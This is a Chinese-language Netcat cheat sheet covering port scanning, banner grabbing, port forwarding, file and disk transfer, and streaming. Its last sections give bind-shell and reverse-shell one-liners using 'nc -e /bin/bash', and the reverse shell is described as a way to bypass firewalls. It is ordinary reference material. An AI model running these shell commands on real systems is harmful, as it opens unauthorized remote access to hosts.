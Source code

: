 Netcat 速查表
===

该速查表提供了在 Linux 和 Unix 上使用 Netcat 的各种方法。

入门
------
<!--rehype:body-class=cols-5-->

### 用法
<!--rehype:wrap-class=col-span-2-->

连接到位于任何地方的主机

```shell
$ nc [options] [host] [port]
```

监听传入连接

```shell
$ nc -lp port [host] [port]
```

### 选项示例
<!--rehype:wrap-class=col-span-3 row-span-2-->

选项 | 示例 | 说明
:- | :- | :-
`-h`   | nc -h                      | 帮助
`-z`   | nc -z 192.168.1.9 1-100    | 端口扫描主机或 `IP` 地址
`-v`   | nc -zv 192.168.1.9 1-100   | 提供详细输出
`-n`   | nc -zn 192.168.1.9 1-100   | 通过禁用 `DNS` 解析进行快速扫描
`-l`   | nc -lp 8000                | `TCP` 侦听模式 _(用于入站连接)_
`-w`   | nc -w 180 192.168.1.9 8000 | 定义超时值
`-k`   | nc -kl 8000                | 断线后继续收听
`-u`   | nc -u 192.168.1.9 8000     | 使用 `UDP` 而不是 `TCP`
`-q`   | nc -q 1 192.168.1.9 8000   | 客户在 `EOF` 后熬夜
`-4`   | nc -4 -l 8000              | 仅限 `IPv4`
`-6`   | nc -6 -l 8000              | 仅限 `IPv6`

### 聊天客户端-服务器
<!--rehype:wrap-class=col-span-2-->

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000
```

Netcat 示例
--------

### Banner 抓取

```shell
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```

或者

```shell
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### 端口扫描

扫描 `21` 到 `25` 之间的端口

```shell
$ nc -zvn 192.168.1.1 21-25
```

扫描端口 `22`、`3306` 和 `8080`

```shell
$ nc -zvn 192.168.1.1 22 3306 8080
```

### 代理和端口转发

```shell
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```

或者

```shell
$ nc -l 8001 | nc 127.0.0.1 8000
```

创建从一个本地端口到另一个本地端口的隧道

### 下载文件

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 < file.txt
```

客户端 Client

```shell
$ nc -nv 192.168.1.9 8000 > file.txt
```

假设您想将文件 `file.txt` 从服务器 A 传输到客户端 B。

### 上传文件

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 > file.txt
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 < file.txt
```

假设您想将文件 `file.txt` 从客户端 `B` 传输到服务器 `A`

### 目录传输

服务器 Server (192.168.1.9)

```shell
$ tar -cvf – dir_name | nc -l 8000
```

客户端 Client

```shell
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

假设您想通过网络将目录从 `A` 传输到 `B`

### 加密传输
<!--rehype:wrap-class=col-span-2-->

服务器 Server (192.168.1.9)

```shell
$ nc -l 8000 | openssl enc -d -des3 -pass pass:password > file.txt
```

客户端 Client

```shell
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

在通过网络传输之前加密数据

### 克隆

服务器 Server (192.168.1.9)

```shell
$ dd if=/dev/sda | nc -l 8000
```

客户端 Client

```shell
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

克隆 linux PC 非常简单。假设你的系统盘是 /dev/sda

### 视频流

服务器 Server (192.168.1.9)

```shell
$ cat video.avi | nc -l 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

使用 netcat 流式传输视频

### 远程 shell

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 -e /bin/bash
```

客户端 Client

```shell
$ nc 192.168.1.9 8000
```

我们已经使用 `telnet` 和 `ssh` 使用远程 `Shell`，但是如果它们没有安装并且我们没有安装它们的权限，那么我们也可以使用 `netcat` 创建远程 `shell`

### 逆转 shell

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

反向 `shell` 通常用于绕过防火墙限制，例如阻止入站连接

